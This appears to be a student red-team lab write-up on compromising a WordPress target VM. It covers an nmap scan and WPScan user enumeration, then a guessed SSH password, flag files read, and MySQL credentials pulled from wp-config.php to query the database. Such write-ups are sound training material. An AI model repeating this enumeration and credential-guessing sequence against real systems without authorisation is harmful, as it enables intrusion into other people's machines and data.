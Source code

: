 # Red Team: Summary of Operations

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

Output Screenshot:

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Nmap-Scan.png)

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**

1. Weak Password Requirements (CWE-521) 
2. User Enumeration
3. Unsalted User Password Hash (WordPress database)

### Explotation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Commands: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

**WPScan Results:**

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/WPscan.png)

- Targeting user Michael
    - Simply guessed Michael’s password, as it was very obvious
    - Password: michael (lulz)
- Capturing Flag 1: SSH'd into Michael's account and traversed through directories and folders
    - Flag 1 found in var/www/html folder in service.html 

        - Commands:
    
        - `$ ssh michael@192.168.1.110`
        - `$ password: michael`
        - `$ cd /var/www/html`
        - `$ cat service.html`
        
![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.

        - Commands:
        
        - `ssh michael@192.168.1.110` 
        - `pw: michael`
        - `cd ../` 
        - `cd ../`
        - `cd var/www`
        - `ls`
        - `cat flag2.txt`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag2.png) 

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Obtained mysql login credentials from the wp-config.php file found in the var/www/html/wordpress directory
        - I was able to find Flags 3 and 4 using the steps below
        - Commands:

         - `mysql -u -p`
         - `password: R@v3nSecurity`
         - `show databases;`
         - `use wordpress;` 
         - `show tables;`
         - `select * from wp_posts;`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag3.png)

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag4.png)
